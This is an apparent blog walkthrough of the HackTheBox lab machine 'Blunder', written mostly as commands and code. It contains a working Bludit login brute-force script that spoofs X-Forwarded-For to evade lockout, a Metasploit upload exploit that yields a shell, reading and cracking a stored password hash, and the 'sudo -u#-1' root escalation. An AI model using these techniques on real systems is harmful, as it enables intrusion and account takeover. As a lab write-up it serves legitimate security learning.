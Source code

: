 ```yaml
---
layout: post
title:  "HackTheBox - Blunder"
date:   2020-10-17 10:10:05 +0300
categories: [HackTheBox,walkthrough]
pin: true
tags: [enumeration,bruteforce,bludit,msfconsole,cewl,Sudo,crackstation]
image: /images/b.png
---
```


- Difficulty : easy

#### Cewl
```sh
cewl -w h1pno.txt -d 5 -m 8 http://10.10.10.191/
```
#### Fuzzing
```sh
./ffuf -u http://10.10.10.191/FUZZ.txt -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
#### Found todo.txt
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
so maybe fergus is the username
```
#### Brute Force Bludit WebSite
- Script
{% highlight python %}
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []
with open("h1pno.txt") as file:
    for line in file:
        line = line.strip() #or some other preprocessing
        wordlist.append(line)
# Generate 50 incorrect passwords
#for i in range(50):
#    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = str(password)))

    headers = {
        'X-Forwarded-For': str(password),
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = str(password)))
            print()
            break

{% endhighlight %}

- Result
```sh
/admin/login
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```
#### MSFConsole
```sh
msfconsole
search bludit
use exploit/linux/http/bludit_upload_images_exec
set RHOSTS 10.10.10.191
set BLUDITUSER fergus
set BLUDITPASS RolandDeschain
run
```
#### Meterpreter
```sh
shell
/usr/bin/script -qc /bin/bash /dev/null
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php | grep password
"password": "faca404fd5c0a31cf1897b823c695c85cffeb98d"
```
- go to website crackstation
- give us Password120 and is the password for user hugo

#### User Credentials

`hugo` : `Password120`

#### Root
```sh
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
```
#### Explain Sudo Exploit

This permission allows the user `hugo` to spawn any shell expect root shell (!root)
so the vulnerability is that the root id is 0 as we know 0 is the first count for ids
but what about -1 ?  -1 id is never used so it returns 0 and that is root's id.
